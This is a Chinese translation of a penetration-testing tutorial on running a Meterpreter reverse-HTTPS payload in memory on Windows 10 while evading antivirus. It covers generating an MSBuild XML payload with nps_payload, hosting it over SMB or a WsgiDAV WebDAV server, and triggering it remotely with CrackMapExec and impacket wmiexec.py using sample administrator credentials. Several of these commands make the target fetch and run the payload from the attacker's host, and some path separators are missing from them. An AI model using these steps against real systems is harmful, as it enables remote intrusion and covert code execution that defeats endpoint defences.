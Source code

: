 > 原文链接: https://www.anquanke.com//post/id/147510 


# win10内存花式执行meterpreter并绕过杀毒软件


                                阅读量   
                                **152137**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：https://www.n00py.io/
                                <br>原文地址：[https://www.n00py.io/2018/06/executing-meterpreter-in-memory-on-windows-10-and-bypassing-antivirus/](https://www.n00py.io/2018/06/executing-meterpreter-in-memory-on-windows-10-and-bypassing-antivirus/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p5.ssl.qhimg.com/t01a7777ba1dd2b5e3d.jpg)](https://p5.ssl.qhimg.com/t01a7777ba1dd2b5e3d.jpg)

最近我在coalfire博客上看到一篇文章，讲的是利用Invoke-CradleCrafter来执行混淆的powershell payload。

由于Windows defender已经升级到最新并且屏蔽了metasploit的web利用模块，所以这篇文章非常有用。

这里我想展示另一种方法来达到同样的效果，但是不会删除主机系统上的任何文件，也会根据主机对互联网开放的端口提供更多选择。

 为了生成payload，我得先去GitHub上看下Ben Ten和Spoonman大神创建的nps_payload脚本。

这个脚本利用了MSbuild.exe文件，能够绕过很多白名单应用配置文件(AWL)。

 执行以下步骤下载nps_payload脚本:

[![](https://p0.ssl.qhimg.com/t011b9bc90029ca4fbb.png)](https://p0.ssl.qhimg.com/t011b9bc90029ca4fbb.png)

执行脚本：

[![](https://p1.ssl.qhimg.com/t012cb38cd5d91bcfb8.png)](https://p1.ssl.qhimg.com/t012cb38cd5d91bcfb8.png)

输入1选择“Generate msbuild/nps/msf payload”

然后输入3，选择“windows/meterpreter/reverse_https”

这会输出一个msbuild_nps.xml文件，当然你也可以进行重命名。

要把这个文件传到靶机上，我们需要先在本地启用SMB共享服务。

通过以下步骤来启用本地共享：

[![](https://p1.ssl.qhimg.com/t01d15b161ec800f9bb.png)](https://p1.ssl.qhimg.com/t01d15b161ec800f9bb.png)

然后在smb.conf文件底部添加以下内容：

[![](https://p2.ssl.qhimg.com/t01433563a6295492ac.png)](https://p2.ssl.qhimg.com/t01433563a6295492ac.png)

将payload拷贝到你指定路径下的目录里。

[![](https://p2.ssl.qhimg.com/t0197c428a18bb0dab8.png)](https://p2.ssl.qhimg.com/t0197c428a18bb0dab8.png)

现在payload已经在SMB共享文件里了。下一步就是开启Metasploit监听。

[![](https://p5.ssl.qhimg.com/t0127ccdf11631e8a1f.png)](https://p5.ssl.qhimg.com/t0127ccdf11631e8a1f.png)

你也可以使用nps_payload生成的msbuild_nps.rc文件。

确保你的本地端口(LPORT)和本地主机(LHOST)跟nps_payload脚本中的保持一致。

在远程主机上执行文件有很多方法。

如果你可以RDP远程连接主机的话，直接在命令行中粘贴如下命令：

%windir%Microsoft.NETFrameworkv4.0.30319msbuild.exe \192.168.137.133Guest Sharemsbuild_nps.xml

如图：

[![](https://p2.ssl.qhimg.com/t017e0c02cf069b7263.png)](https://p2.ssl.qhimg.com/t017e0c02cf069b7263.png)

你也可以利用常见的命令执行工具通过网络来远程执行：

**CrackMapExec方式执行：**

crackmapexec smb 192.168.137.1 -u Administrator -p Password123 -x 

‘%windir%Microsoft.NETFrameworkv4.0.30319msbuild.exe 

\192.168.137.133Guestmsbuild_nps.xml’

**python impacket包中的wimiexec.py：**

python wmiexec.py Adminstrator:Password123@192.168.137.1 cme.exe /c start 

%windir%Microsoft.NETFrameworkv4.0.30319msbuild.exe 

\192.168.137.133Guestmsbuild_nps.xml

测试的时候，执行脚本遇到了一点问题。因此我想到了用WebDAV的方式把脚本上传到靶机中，这个方法比SMB共享更好。

为什么要用WebDAV呢？我们先来了解一下UNC路径问题。

Windows首先会访问445端口的SMB共享服务，如果失败，则会尝试访问80端口的WebDAV服务。这种方式非常有用，原因如下：

<!-- [if !supportLists]-->1.      <!--[endif]-->SMB服务通常会被防火墙屏蔽。如果你想从远程主机上获取payload通常都行不通，因为445端口被屏蔽了。

<!-- [if !supportLists]-->2.      <!--[endif]-->CrackMapExec版本4，需要服务器的445端口运行SMB服务来执行命令。我们不能在同一时间在同一台主机上使用SMB共享和CME服务。

<!-- [if !supportLists]-->3.      <!--[endif]-->WebDAV支持HTTPS。

有很多方法可以搭建WebDAV服务器。你可以用Apache来搭，这里我用一个python工具WsgiDAV来搭建一个。

通过pip命令来安装WsgiDAV，非常简单，只需要输入如下命令：[![](https://p0.ssl.qhimg.com/t01a6abcbee28421b72.png)](https://p0.ssl.qhimg.com/t01a6abcbee28421b72.png)

使用也很简单，运行如下命令：[![](https://p3.ssl.qhimg.com/t01b00f2839aecaac14.png)](https://p3.ssl.qhimg.com/t01b00f2839aecaac14.png)

在这个例子中，我把payload放在/tmp/目录下”test”文件夹中。

要远程执行payload，我们只需要执行如下命令：

CrackMapExec：

crackmapexec smb 192.168.137.1 -u Administrator -p Password123 -x 

‘%windir%Microsoft.NETFrameworkv4.0.30319msbuild.exe 

\192.168.137.134Davwwwroottestmsbuild_nps.xml’

如图：

[![](https://p0.ssl.qhimg.com/t01d309038f84d5d884.png)](https://p0.ssl.qhimg.com/t01d309038f84d5d884.png)

Impacket包的wimiexec.py脚本：

python wmiexec.py Administrator:Password123@192.168.137.1

C:&gt;%windir%Microsoft.NETFrameworkv4.0.30319msbuild.exe 

\192.168.137.134Davwwwroottestmsbuild_nps.xml

如图：[![](https://p5.ssl.qhimg.com/t016b1fce4a1b67c791.png)](https://p5.ssl.qhimg.com/t016b1fce4a1b67c791.png)

这样一来，我们就可以不用SMB共享在靶机上执行payload了。

没有对磁盘写入任何东西，没有SMB带外流量，因此完全可以避开杀毒软件。
